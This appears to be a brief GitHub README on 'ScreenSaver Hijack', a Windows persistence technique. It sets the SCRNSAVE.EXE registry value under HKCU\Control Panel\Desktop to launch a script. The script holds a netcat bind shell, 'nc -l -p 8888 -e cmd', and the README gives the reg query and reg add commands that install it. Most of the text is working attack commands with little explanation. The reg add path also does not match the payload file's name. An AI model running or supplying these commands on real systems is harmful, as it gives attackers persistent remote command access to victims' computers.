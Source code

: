 # ScreenSaver Hijack

 we can modify SCRNSAVE.EXE value in the registry  HKCU\Control Panel\Desktop\ and change its data to point to any malicious file

### malicious payload

#### driver1.cmd

```
nc -l -p 8888 -e cmd
```

### Befor add malicious payload

```
reg query "hkcu\control panel\desktop" /v SCRNSAVE.EXE
```

### Add malicious payload

```
reg add "hkcu\control panel\desktop" /v SCRNSAVE.EXE /d E:\presistent\screen.cmd
```
